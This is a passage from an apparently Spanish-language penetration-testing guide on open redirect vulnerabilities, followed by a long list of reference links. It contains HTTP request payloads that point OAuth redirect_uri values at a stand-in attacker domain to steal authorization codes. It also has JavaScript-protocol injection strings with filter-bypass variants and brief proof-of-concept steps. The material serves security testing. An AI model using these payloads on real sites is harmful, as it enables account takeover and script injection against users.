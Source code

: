 ```http
GET /auth/oauth?redirect_uri=https://atacante.com/callback HTTP/1.1
Host: victima.com
```

**Chained OAuth exploit:**

```http
# 1. Descubrir open redirect en app
GET /redirect?path=https://atacante.com

# 2. Usar redirect en OAuth flow  
GET /auth?redirect_uri=https://victima.com/redirect?path=https://atacante.com
```

### Técnicas DOM-based[^1]

**JavaScript protocol injection:**

```http
GET /redirect?url=javascript:alert(document.domain) HTTP/1.1

# Bypass de filtros JS
GET /redirect?url=jaVa%0AscRipt:prompt(1) HTTP/1.1

# Newline bypass
GET /redirect?url=javascript://something%0Aalert(1) HTTP/1.1
```

### Evidencias Mínimas

- Screenshots de redirección exitosa a dominio atacante
- Cabeceras `Location` mostrando URL controlada
- Logs de servidor atacante recibiendo requests
- Confirmación de escalada (XSS, OAuth takeover, SSRF)

## PoC

### Manual: Redirección Básica

**Objetivo:** Demostrar control sobre destino de redirección

**Pasos:**

1. Identificar endpoint vulnerable: `?redirect=` en victima.com
2. Probar redirección externa: `?redirect=https://atacante.com`
3. Confirmar redirección automática en navegador
4. Documentar cabecera `Location` y comportamiento

**Resultado Esperado:** Usuario redirigido a dominio atacante sin confirmación

### Manual: OAuth Account Takeover[^9]

**Objetivo:** Demostrar robo de authorization code via open redirect

**Pasos:**


[^1]: https://www.intigriti.com/researchers/blog/hacking-tools/open-url-redirects-a-complete-guide-to-exploiting-open-url-redirect-vulnerabilities
[^2]: https://www.stackhawk.com/blog/what-is-open-redirect/
[^3]: https://www.diverto.hr/en/blog/2024-12-30-open-redirection-url-filter-bypasses
[^4]: https://www.wallarm.com/what/open-redirect-vulnerability
[^5]: https://infosecwriteups.com/how-to-automate-hunting-for-open-redirect-46537cd67b35
[^6]: https://spyboy.blog/2025/05/01/the-ultimate-guide-to-finding-open-redirect-vulnerabilities-step-by-step-payloads-tools/
[^7]: https://infosecwriteups.com/100-worth-open-redirect-automation-3e2f9e36bade
[^8]: https://www.cyberark.com/resources/threat-research-blog/how-secure-is-your-oauth-insights-from-100-websites
[^9]: https://systemweakness.com/day-21-full-account-takeover-via-open-redirection-5f3ca7f0c726
[^10]: https://infosecwriteups.com/️-how-hackers-bypass-web-application-firewalls-wafs-in-2025-c2a5052044c9
[^11]: https://systemweakness.com/8-sneaky-waf-bypass-attempts-hackers-use-in-2025-and-how-safeline-stops-them-cold-f00034239538
[^12]: https://gist.github.com/0xblackbird/d7677a05ea50586cf2be0a601e665d1a
[^13]: https://infosecwriteups.com/testing-and-bypassing-technique-for-open-redirection-vulnerability-ca1bc6c851c5
[^14]: https://www.youtube.com/watch?v=sOrS69P-D8M
[^15]: https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection
[^16]: https://github.com/0xKayala/OpenRedirector
[^17]: https://cqr.company/web-vulnerabilities/open-redirect/
[^18]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2023-24735
[^19]: https://pentest-tools.com/vulnerabilities-exploits/grafana-xss-open-redirect-ssrf-via-client-path-traversal_27130
[^20]: https://security.snyk.io/vuln/SNYK-RHEL10-AUTOMATIONCONTROLLER-10441889
[^21]: https://swisskyrepo.github.io/PayloadsAllTheThings/Open Redirect/
[^22]: https://www.invicti.com/blog/web-security/open-redirection-vulnerability-information-prevention/
[^23]: https://www.acunetix.com/vulnerabilities/web/grafana-open-redirect-cve-2025-4123/
[^24]: https://abnormal.ai/blog/attackers-exploit-open-redirects
[^25]: https://www.first.org/cvss/examples
[^26]: https://www.first.org/cvss/v3-1/examples
[^27]: https://cybercx.co.nz/blog/advanced-open-redirection-vulnerability-discovery/
[^28]: https://security.snyk.io/vuln/SNYK-JS-EXPRESS-6474509
[^29]: https://waf-bypass.com/2025/06/page/2/
[^30]: https://www.youtube.com/watch?v=1Op_fPufvRI
[^31]: https://brightdata.com/blog/web-data/bypass-cloudflare
[^32]: https://www.radware.com/cyberpedia/application-security/server-side-request-forgery/
[^33]: https://dl.acm.org/doi/fullHtml/10.1145/3627106.3627140
[^34]: https://hackerone.com/reports/206591
[^35]: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect
[^36]: https://www.linkedin.com/posts/martinmarting_an-interesting-combo-ssrf-and-open-redirect-activity-7343680390290706433-lviV
[^37]: https://salt.security/blog/traveling-with-oauth-account-takeover-on-booking-com
[^38]: https://infosecwriteups.com/from-open-redirect-to-internal-access-my-ssrf-exploit-story-10a736962f98
[^39]: https://security.tecno.com/SRC/blogdetail/330?lang=en_US
